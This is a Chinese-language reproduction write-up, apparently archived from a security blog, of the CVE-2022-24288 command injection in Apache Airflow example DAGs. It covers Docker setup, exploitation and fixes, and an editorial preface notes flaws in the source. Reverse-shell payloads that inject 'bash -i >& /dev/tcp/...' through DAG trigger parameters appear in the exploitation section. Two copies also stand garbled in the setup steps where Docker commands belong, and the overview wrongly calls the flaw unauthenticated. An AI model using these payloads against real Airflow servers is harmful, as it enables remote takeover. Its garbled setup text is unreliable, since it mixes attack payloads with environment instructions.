# Apache Airflow 示例 DAG 命令注入历史分析（CVE-2022-24288）

<!-- vulwiki-editorial:start -->
## 校订与适用边界

正文保留示例 DAG、界面参数与任务触发的技术流程，作为历史分析收录。该流程需要相应示例 DAG 启用且具备后台触发能力，不能据摘要推广为默认匿名可用。环境命令与 JSON 错贴、DAG 名称只在截图等问题仍未补齐，不能直接照抄搭建。

- 适用前提：<2.2.4相应示例DAG启用，能经UI触发带参数任务；正文明确后台权限或另链
- 证据范围：摘要称未经认证与后文明确后台漏洞矛盾；环境段发生严重代码错位

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 原 version 抽取错误曾为 docker-compose 命令，现已改记原文版本主张；这不构成版本确认
- compose警告解决方法和后台启动位置被替换成反弹JSON，显然不是有效环境指令
- privileged=true不是漏洞必需且扩大容器权限，postgres latest不固定可破兼容
- 两个DAG名字只截图，缺可文字复现定位；已认证条件应前置

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/eEvADelFTk5OX07eGo8XLw)

**上方蓝色字体关注我们，一起学安全！**

**作者：****bnlbnf****@Timeline Sec  
**

**本文字数：764**

**阅读时长：2～3min**

**声明：仅供学习参考使用，请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Apache Airflow 是美国阿帕奇（Apache）基金会的一套用于创建、管理和监控工作流程的开源平台。该平台具有可扩展和动态监控等特点。  

**0x02 漏洞概述**  

  

Apache Airflow 存在操作系统命令注入漏洞，该漏洞的存在是由于某些示例 dag 中不正确的输入验证。远程未经身份验证的攻击者可利用该漏洞可以传递专门制作的 HTTP 请求，并在目标系统上执行任意操作系统命令。该漏洞允许远程攻击者可利用该漏洞在目标系统上执行任意 shell 命令。  

**0x03 影响版本**  

  

Apache Airflow < 2.2.4  

**0x04 环境搭建**  

  

使用 docker 搭建存在漏洞的系统版本  

获取 yaml 文档

```shell
curl -LfO 'https://airflow.apache.org/docs/apache-airflow/2.2.3/docker-compose.yaml'
```

```
mkdir -p ./dags ./logs ./plugins
echo -e "AIRFLOW_UID=$(id -u)" > .env
```

把这两个参数改成下面的，选择 postgres 的 latest 版本，privileged=true 就是提升权限

```shell
docker-compose -f docker-compose.yaml up -d
```

privileged: true(没有就加一个)



然后 wq 保存

在这里你用 docker-compose config -q 会有一个警告的，为了不报这个警告官网也推荐了以下这个方式

```
{"foo":"\";bash -i >& /dev/tcp/xx.xx.xx.xx/8881 0>&1;\""}
```

直接执行即可

初始化

docker-compose up airflow-init



docker-compose 后台启动 airflow

```
{"my_param":"\";bash -i >& /dev/tcp/xx.xx.xx.xx/8881 0>&1;\""}
```

启动完成，浏览器打开 ip:8080 端口

用户名：airflow

密码：airflow  



登陆，环境搭建完成  



**0x05 漏洞复现**  

  

参考漏洞提交者的文章

https://hackerone.com/reports/1492896

两处 RCE 均为后台漏洞（需要配合未授权或者默认口令漏洞进行利用）

**第一处：**



开启监听  



反弹 shell

```
{"foo":"\";bash -i >& /dev/tcp/xx.xx.xx.xx/8881 0>&1;\""}
```



反弹成功

  

**第二处:**  



开启监听


```
{"my_param":"\";bash -i >& /dev/tcp/xx.xx.xx.xx/8881 0>&1;\""}
```



反弹成功  



**0x06 修复方式**  

  

1、目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

http://seclists.org/oss-sec/2022/q1/160

2、删除或禁用默认 DAG（可自行删除或在配置文件中禁用默认 DAGload_examples=False）


  


**阅读原文看更多复现文章**

Timeline Sec 团队  

安全路上，与你并肩前行

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
